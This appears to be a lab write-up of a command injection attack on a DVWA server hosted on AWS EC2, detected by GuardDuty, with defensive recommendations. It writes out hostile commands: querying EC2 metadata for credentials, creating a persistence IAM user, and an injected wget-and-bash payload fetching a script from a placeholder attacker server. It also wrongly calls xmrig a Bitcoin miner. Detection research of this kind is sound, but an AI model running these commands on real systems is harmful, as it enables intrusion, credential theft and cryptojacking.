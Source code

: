 TARGET:DVWA

Vulnerability:Command Injection

Command Injection Exploit on DVWA Server

Overview

This document describes an attack scenario exploiting a Command Injection vulnerability on a DVWA (Damn Vulnerable Web Application) server. The server is assumed to run with root privileges, providing the attacker with unrestricted control upon successful exploitation.

Attack Scenario

Step 1: Vulnerability Discovery

	1.	The attacker identifies a Command Injection vulnerability in the web application by analyzing input parameters that are not properly sanitized.
	2.	Using crafted payloads, the attacker executes system-level commands.

Step 2: Information Gathering

	1.	AWS EC2 Instance Information:
	•	The attacker enumerates details about the environment (e.g., EC2 metadata, instance role credentials) using commands such as:

curl http://169.254.169.254/latest/meta-data/


	•	Extracts sensitive EC2 details, including security credentials and instance role.

	2.	System Reconnaissance:
	•	The attacker collects OS information, open ports, installed packages, and other system configurations.

Step 3: Malicious Payload Deployment

The attacker deploys a setup script to achieve multiple objectives:
	1.	IAM User Creation:
	•	Creates a new IAM user with escalated permissions for persistence and future access.

aws iam create-user --user-name malicious_user


	2.	Malware Installation:
	•	Downloads and installs malicious scripts and packages using commands such as:

wget http://<attacker-server>/setup.sh -O /tmp/setup.sh && bash /tmp/setup.sh


	3.	Botnet Integration and Data Harvesting:
	•	Uploads and executes scripts:
	•	C&C Communication (cnc.py): Establishes a connection to the attacker’s command-and-control server.
	•	Web Log Harvester (web_user_log.py): Collects sensitive user data from server logs.
	•	Network Sniffer (pcap.py): Captures and analyzes live network traffic for credentials.
	4.	Cryptocurrency Mining:
	•	Installs and configures a lightweight Bitcoin mining package (e.g., xmrig) to utilize server resources for mining operations.

Step 4: GuardDuty Detection

The malicious activities trigger AWS GuardDuty within minutes due to:
	1.	Suspicious Command Execution:
	•	Commands such as wget and cryptocurrency-related binaries (e.g., bitcoin) are flagged.
	2.	Runtime Behavior Analysis:
	•	High CPU utilization and outbound connections to known malicious IP addresses.

Timeline

	1.	Initial Exploitation and Payload Deployment: Within 2 minutes.
	2.	GuardDuty Detection: Within 4 minutes.

Example Payload

Below is an example of a Command Injection payload used to initiate the attack:

; wget http://<attacker-server>/setup.sh -O /tmp/setup.sh && bash /tmp/setup.sh;

Defensive Recommendations

	1.	Input Sanitization:
	•	Implement strict input validation to prevent command injection.
	2.	AWS Security Measures:
	•	Use fine-grained IAM permissions and monitor API activity.
	3.	GuardDuty Alerts:
	•	Regularly review and act on GuardDuty findings to mitigate malicious activity.

Conclusion

This scenario demonstrates how a poorly secured web application with a Command Injection and root vulnerability can be exploited to compromise an entire server, establish persistence, and perform malicious activities like cryptocurrency mining and data harvesting. Early detection and mitigation are critical in such cases.
